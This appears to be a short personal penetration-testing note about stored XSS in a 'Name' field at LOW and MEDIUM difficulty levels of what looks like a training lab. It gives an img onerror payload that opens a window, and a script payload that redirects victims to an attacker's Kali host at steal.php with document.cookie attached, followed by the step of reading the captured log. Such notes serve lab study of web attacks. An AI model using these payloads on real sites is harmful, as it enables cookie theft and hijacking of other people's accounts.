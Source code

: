 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

In the `Name` field:
```
<img src="https://nonexisting.url" onerror=window.open("https://www.owasp.org","xss",'height=500,width=500');>
```


MEDIUM

[[7._XSS#steal php]]

In the `Name` field:
```
<SCRIPT>window.location.replace("http://$KALI/steal.php?q="+document.cookie);</SCRIPT>
```

Now just check `/var/www/html/log.txt` on kali.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

